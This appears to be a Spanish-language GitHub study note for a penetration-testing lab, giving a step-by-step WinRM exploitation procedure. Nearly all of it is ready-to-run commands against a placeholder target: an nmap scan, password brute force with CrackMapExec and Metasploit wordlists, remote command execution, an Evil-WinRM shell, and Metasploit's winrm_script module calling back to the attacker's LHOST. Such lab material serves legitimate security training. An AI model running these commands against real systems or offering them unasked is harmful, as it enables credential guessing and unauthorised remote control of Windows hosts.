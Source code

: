 # Explotación de WinRM paso a paso

## 1️⃣ Identificar si el servicio WinRM está activo

Primero comprobamos que en los puertos 5985/5986 hay un servicio `Microsoft HTTPAPI` escuchando.

### Con Nmap:
```
nmap -p 5985,5986 -sV <IP_OBJETIVO>
```

Si aparece algo como:
```
5985/tcp open  http   Microsoft HTTPAPI httpd 2.0
```
significa que WinRM está habilitado.

---

## 2️⃣ Fuerza bruta con CrackMapExec

Probar contraseñas contra WinRM con una lista de contraseñas.

```
crackmapexec winrm <IP_OBJETIVO> -u administrator -p /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
```
## Por msfconsole

````
msfconsole -q
use auxiliary/scanner/winrm/winrm_login
set RHOSTS demo.ine.local
set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
set VERBOSE false
set PASSWORD anything
exploit
````
Si encuentras una contraseña válida, puedes comprobarla directamente con un comando remoto.

---

## 3️⃣ Ejecutar un comando remoto con CrackMapExec

Usar credenciales encontradas para ejecutar un comando (`whoami`) vía WinRM:

```
crackmapexec winrm <IP_OBJETIVO> -u administrator -p <PASSWORD> -x "whoami"
```

---

## 4️⃣ Conectarse con Evil-WinRM

Establecer una sesión interactiva con Evil-WinRM:

```
evil-winrm -u administrator -p '<PASSWORD>' -i <IP_OBJETIVO>
```

Una vez dentro, puedes ejecutar comandos como:
```
ipconfig
```

---

## 5️⃣ Uso del módulo `winrm_script` en Metasploit

También puedes usar Metasploit para ejecutar scripts vía WinRM.

### Abrir Metasploit:
```
msfconsole
```

### Buscar y cargar el módulo:
```
search winrm_script
use 0
```

### Configurar las opciones:
```
set RHOSTS <IP_OBJETIVO>
set FORCE_VBS true
set USERNAME administrator
set PASSWORD <PASSWORD>
set LHOST <TU_IP>
exploit
```
